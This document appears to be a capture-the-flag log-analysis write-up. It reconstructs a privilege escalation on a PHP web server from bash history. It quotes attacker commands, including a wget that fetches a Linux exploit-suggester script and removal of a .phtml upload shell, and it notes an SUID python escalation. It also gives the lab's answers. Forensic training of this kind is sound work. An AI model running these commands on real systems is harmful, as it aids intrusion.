 # Log Analysis - Privilege Escalation

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account.  <br>

Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution.  <br>

The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened? 

# Questions

## What user (other than ‘root’) is present on the server? 
 
We can see that the attacker changed to a user folder

```bash
cd /home/daniel/
```

**Answer:** daniel

## What script did the attacker try to download to the server?

He used **wget** to download a kernel exploit suggester

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

**Answer:** linux-exploit-suggester.sh

## What packet analyzer tool did the attacker try to use? 

Not much to say

**Answer:** tcpdump

##  What file extension did the attacker use to bypass the file upload filter implemented by the developer? 

Last command in the **bash_history**

```bash
rm /var/www/html/uploads/x.phtml
```
**Answer:** phtml

##  Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load 

Well, since the attacker just did an inline command to spawn a shell, the answer is pretty straight forward

**Answer:** 4 
